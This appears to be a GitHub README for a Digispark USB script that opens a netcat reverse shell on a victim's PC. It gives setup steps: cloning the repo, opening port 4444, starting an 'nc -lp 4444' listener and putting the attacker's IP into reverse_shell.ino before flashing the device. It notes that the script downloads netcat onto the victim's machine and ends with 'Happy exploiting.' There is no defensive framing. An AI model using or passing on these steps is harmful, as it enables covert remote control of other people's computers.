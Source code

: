 ### Note the link in the script to download netcat on the victims pc will expire



## How to use:

`git clone https://github.com/Samuel20354/Digispark_scripts.git`


`cd Digispark_scripts/Reverse Shell (NetCat)`


`sudo ufw allow 4444`


`nc -lp 4444`


Change the IP on line 17 to your local IP in `reverse_shell.ino` file, then upload to your digispark. Done! Happy exploiting.
